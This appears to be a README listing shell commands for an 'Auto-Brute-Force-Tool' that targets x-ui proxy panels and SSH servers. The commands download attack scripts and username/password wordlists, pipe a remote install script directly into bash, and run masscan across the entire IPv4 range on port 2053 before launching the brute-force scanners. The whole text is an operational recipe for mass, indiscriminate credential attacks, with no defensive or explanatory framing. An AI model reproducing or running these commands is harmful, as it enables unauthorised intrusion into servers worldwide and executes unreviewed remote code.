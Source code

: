     curl -o xui.py "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xui.py"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/username.txt"
    curl -o 1.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/1.txt"
    curl -o nz.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz.txt"
    curl -o xd.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xd.txt"
    curl -o xuiyg.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xuiyg.txt"
    bash <(curl -Ls https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/main/install_tools.sh | tr -d '\r')
    curl -o username.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E7%94%A8%E6%88%B7%E5%90%8D%E5%AD%97%E5%85%B8/SSH-username-top30.txt"
    curl -o password.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%AD%97%E5%85%B8/2021passwd-CN-Top200.txt"
    curl -o scan_xui.go "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/scan_xui.go"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_username.txt"
    curl -o password.txt "https://raw.githubusercontent.com/r35tart/RW_Password/refs/heads/master/%E7%AC%A6%E5%90%88%E5%9B%9B%E4%B8%AA%E6%9D%A1%E4%BB%B6%E7%9A%848%E4%BD%8D%E6%95%B0%E5%AF%86%E7%A0%811420%E6%9D%A1.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz_username.txt"  
    screen -v
    sudo apt-get update && sudo apt-get install screen -y
    screen -S aissist
    python3 xui.py
    screen -r aissist
    masscan --exclude 255.255.255.255 -p2053 --max-rate 100000 -oG results2053.txt 0.0.0.0/0
    HOME=/root go run scan_xui.go


